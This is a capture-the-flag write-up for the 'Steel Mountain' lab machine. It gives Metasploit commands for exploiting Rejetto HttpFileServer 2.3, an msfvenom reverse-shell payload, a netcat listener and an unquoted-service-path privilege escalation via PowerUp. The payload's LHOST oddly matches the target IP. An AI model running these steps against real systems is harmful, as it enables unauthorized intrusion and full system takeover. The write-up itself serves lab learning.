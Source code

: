  # Scanning
 
Let's begin by scanning the target. We will first scan the target using Rustscan.

<img src="images/04.Steel-Mountain/01.png">

<img src="images/04.Steel-Mountain/02.png">

<img src="images/04.Steel-Mountain/03.png">

<img src="images/04.Steel-Mountain/04.png">

<img src="images/04.Steel-Mountain/05.png">

There are a lot of ports open and since port 80 is open we will check what's running on that port.

There is an image displaying their employee of the month and we can see the name Steel Mountain which might be an organization.

<img src="images/04.Steel-Mountain/06.png">

While opening the image in a new tab we can see the name of the image as Bill Harper.

<img src="images/04.Steel-Mountain/07.png">

# Enumeration

Now, we will check what's running on port 8080. We can see that there is some file server running. Under the server information, there is mentioned that it is HttpFileServer 2.3. 

<img src="images/04.Steel-Mountain/08.png">

On clicking that leads us to this page which shows that it is a Rejetto HttpFileServer 2.3.

<img src="images/04.Steel-Mountain/09.png">

<img src="images/04.Steel-Mountain/10.png">

# Exploitation

We will search in metasploit if we can find any exploits.

<img src="images/04.Steel-Mountain/11.png">

We found a module which is successfully tested on the version 2.3b. So, we will use this.

<img src="images/04.Steel-Mountain/12.png">

We will set all the required options.

```
set rhost 10.10.2.217
```

```
set rport 8080
```

```
set lhost tun0
```

Run the exploit.

```
exploit
```

<img src="images/04.Steel-Mountain/13.png">

We got the meterpreter reverse shell and we can read the user flag.

<img src="images/04.Steel-Mountain/14.png">

# Privilege Escalation

Now, we will elevate our privileges. We will download the powershell script which can find common Windows privilege escalation vectors that rely on misconfigurations in the target. We will first download the script to our machine.

Let's upload it to the target.
```
upload PowerUp.ps1
```

<img src="images/04.Steel-Mountain/15.png">

Load the powershell module and use powershell.
```
load powershell
```
```
powershell_shell
```

Run the script PowerUp.ps1 that we just downloaded into the target and run it.

```
. .\PowerUp.ps1
```

We will now run all the checks in this module using the following command.
```
Invoke-AllChecks
```
<img src="images/04.Steel-Mountain/16.png">

<img src="images/04.Steel-Mountain/17.png">

When we run the command, we can see that there is a unquoted service path vulnerability as we can see it in the checks.  More information on unqouted service path vulnerability can be found [here.](https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/) 

<img src="images/04.Steel-Mountain/18.png">

For the service AdvancedSystemCareService9, the CanRestart option is set to true which means that the service can be restarted. We will now create a malicious file and upload it in the IObit folder and then restart the service to get the reverse shell. The file name is set to Advanced because we are uploading the file into the path where the Advanced SystemCare folder is present as we know there is an unquoted service path vulnerability. Since the service AdvancedSystemCareService9 is running as system32, we will be getting a reverse shell as system32.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.2.217 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```
<img src="images/04.Steel-Mountain/19.png">

Exit the powershell. Using the earlier meterpreter reverse shell, change directory to the path IObit and then upload the malicious file that we created.
```
upload Advanced.exe
```
<img src="images/04.Steel-Mountain/20.png">

Open another terminal and use netcat listener on port 4443 to get the reverse shell.
```
nc -lnvp 4443
```
<img src="images/04.Steel-Mountain/21.png">

Now, load the command promt shell using the command.

>shell

Restart the AdvancedSystemCareService9 service by using the following commands.

```
sc stop AdvancedSystemCareService9
```
```
sc start AdvancedSystemCareService9
```
<img src="images/04.Steel-Mountain/22.png">

Now we get a reverse shell in the other terminal window running as system32!


